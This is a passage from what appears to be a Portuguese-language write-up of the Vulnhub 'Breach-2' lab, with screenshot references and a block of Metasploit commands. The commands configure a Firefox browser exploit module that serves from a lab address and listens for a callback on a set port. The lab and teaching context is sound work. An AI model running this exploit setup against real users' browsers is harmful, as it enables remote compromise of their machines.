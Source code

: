 !!![](/assets/img/Vulnhub/Breach-2/msfconsole.png)


* Vamos escolher o modulo que sera utilizado e setar as configuracoes dele...

```bash
use exploit/multi/browser/firefox_proto_crmfrequest
set lhost 192.168.110.3
set lport 55135
set srvhost 192.168.110.3
set uripath /
set srvport 80
```

![](/assets/img/Vulnhub/Breach-2/msfconsole-modulo.png)
